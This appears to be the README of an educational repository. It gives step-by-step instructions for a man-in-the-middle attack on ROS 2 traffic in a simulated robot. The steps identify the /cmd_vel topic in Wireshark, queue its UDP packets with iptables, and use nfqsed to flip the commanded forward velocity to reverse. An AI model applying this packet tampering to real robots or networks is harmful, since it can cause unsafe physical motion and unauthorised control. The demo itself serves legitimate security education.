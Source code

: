 # ROS2_Attack_Demo_Educational

Table of Contents
=================
  * [Description](#description)
  * [Requeriments](#requeriments)
  * [Instructions](#instructions)
  * [Documentation](#documentation)


  
## Description 
This repository contains a step-by-step guide to perform a MITM attack in ROS 2, for educational purposes. This guide makes use of the MERLIN2_docker platform, which consists of a docker image with a simulator for the RB1 robot.

The purpose of this guide is to present the vulnerabilities present in the communication mechanisms used by the ROS 2 framework.

## Requeriments

First of all, the following software is required to perform the experiment:

 - A installation of `Docker`
 - A local `ROS 2` distribution installed (Humble is recommended)
 - The package `ros-<DISTRO>-teleop-twist-keyboard`
 - A installation of `Wireshark`
 - `nfqsed` tool [https://github.com/rgerganov/nfqsed]
 - Docker image that contain the platform used for the experiment: [`MERLIN2_docker`](#https://github.com/MERLIN2-ARCH/merlin2_docker)
 - Installation of `Gazebo`
 - Installation of Rviz2
 - Installation of Rocker [https://github.com/osrf/rocker]

## Instructions

1. Execute the docker image with Rocker

    ```
    sudo rocker --nvidia --x11 --privilege mgons/merlin2:humble /bin/bash
    ```

2. Inside the docker run the simulator. This will open a local window for Gazebo and Rviz2.
    ```
    ros2 launch rb1_sandbox small_house.launch.py
    ```
    
    ![Gazebo Image](/images/Gazebo.png "Example of Gazebo execution with Rocker")
    ![RVIZ2 Image](/images/RVIZ2.png "Example of RVIZ2 execution with Rocker")
    
    
3. Run teleop node locally
    ```
    ros2 run teleop_twist_keyboard teleop_twist_keyboard
    ```
4. We will focus in the topic which have information about movement: /cmd_vel. With the following command we can see a list of the available topics.
    ```shell
    $ ros2 topic list
    ```
    ```shell
    /amcl/transition_event
    /amcl_pose
    /behavior_server/transition_event
    /behavior_tree_log
    /bond
    /bt_navigator/transition_event
    /camera/camera_info
    /camera/depth/camera_info
    /camera/depth/image_raw
    /camera/image_raw
    /camera/points
    /clicked_point
    /clock
    /cmd_vel
    /controller_server/transition_event
    ...
    ```
    
    We can see relevant information about the topic with `ros2 topic info <<topic_name>>>`. In this way, we can identify the message type that is been used by the topic. In that case that message type is: `geometry_msgs/msg/Twist`
    
    ```shell
    $ ros2 topic info /cmd_vel -v
    ```
    ```shell
    Type: geometry_msgs/msg/Twist
    Publisher count: 6
    Node name: teleop_twist_keyboard
    Node namespace: /
    Topic type: geometry_msgs/msg/Twist
    Endpoint type: PUBLISHER
    GID: 01.0f.68.a6.11.21.2c.5f
    .01.00.00.00.00.00.11.03.00.00.00.00.00.00.00.00
    QoS profile:
        Reliability: RELIABLE
        History (Depth): UNKNOWN
        Durability: VOLATILE
        Lifespan: Infinite
        Deadline: Infinite
        Liveliness: AUTOMATIC
        Liveliness lease duration: Infinite
    ```
    
    We also can show the structure of the message type:
    
    ```shell
    $ ros2 interface show geometry_msgs/msg/Twist
    ```
    ```shell
    Vector3 linear
    float64 x
    float64 y
    float64 z
    Vector3 angular
    float64 x
    float64 y
    float64 z
    ```
    
5. Teleop node will publish message in /cmd_vel topic. In that case, the node will publish a 0.5 value in X coordinate (of linear velocity) when the user press 'I' key.

    ```shell
    $ ros2 topic echo /cmd_vel
    ```
    ```shell
    linear:
    x: 0.5
    y: 0.0
    z: 0.0
    angular:
    x: 0.0
    y: 0.0
    z: 0.0
    ```
    
6. We must identify the Docker IP. In our case, the teleop node will be publishing in 172.17.0.1 while robot simulation has 172.17.0.2.

    ```shell
    $ ifconfig
    ```
    ```shell
    docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>
    mtu 1500
    inet 172.17.0.1 netmask 255.255.0.0
    broadcast 172.17.255.255
    inet6 fe80::42:14ff:fe51:3357 prefixlen 64
    scopeid 0x20<link>
    ether 02:42:14:51:33:57 txqueuelen 0 (
    Ethernet)
    RX packets 70409 bytes 17665691 (17.6 MB)
    RX errors 0 dropped 0 overruns 0 frame 0
    TX packets 11494 bytes 5410634 (5.4 MB)
    TX errors 0 dropped 0 overruns 0 carrier 0
    collisions 0
    ```
    
7. Run Wireshark (with root) and search for the ros2 packages. The teleop node can be used to generate traffic. We can use the next rule to filter the traffic: ```udp && ip.src==172.17.0.1 && ip.dst==172.17.0.2```. Once we have located a package we must search for the ports and replace them in the scriptDemo.sh file:

![Wireshark Image](/images/Wireshark.png "Example of ROS2 packages in Wireshark")

![Ports Image](/images/ports.png "Ports in Wireshark")

    
    ```shell
    $ sudo iptables -A INPUT -p udp --sport <<port_number>> -j NFQUEUE --queue-num 0
    $ sudo iptables -A OUTPUT -p udp --dport <<port_number>> -j NFQUEUE --queue-num 0
    ```
    
The script is modifying the package replacing the hexadecimal value of x coordinate (of linear velocity). The original value is 0xE03F (0.5 in decimal) and nfqsed will replace that value for 0xE0BF (-0.5 in decimal).

8. Next step consist in run the script and use teleop node to move the robot forward ("I" key), with nfqsed runing, the robot should moving backward when we press "I" key. With Wireshark we can monitor the traffic and see the modification of the package.

    ```shell
    $ ./scriptDemo.sh
    ```
    ```shell
    Rules (in hex):
    e03f -> e0bf
    opening library handle
    unbinding existing nf_queue handler for AF_INET (if any)
    binding nfnetlink_queue as nf_queue handler for AF_INET
    binding this socket to queue ’0’
    setting copy_packet mode
    packet received
    packet received
    rule match, changing payload: e03f -> e0bf
    packet received
    ```
    
    Remember that our script for run nfqsed need no be located inside the nfqsed folder, otherwise you will have to modify the script with the path to nfqsed.
    
    ![OriginalPackage Image](/images/paquete.png "Package before modification.")
    ![HackedPackage Image](/images/RVIZ2.png "Package after modification.")

## Documentation

Some useful links:

- Rocker Github: https://github.com/osrf/rocker
- nfqsed Github: https://github.com/rgerganov/nfqsed
- MERLIN2_docker Github: https://github.com/MERLIN2-ARCH/merlin2_docker
- MERLIN2_docker DockerHub: https://hub.docker.com/r/mgons/merlin2

Documentation:
- Paper:
- Demostration video: 
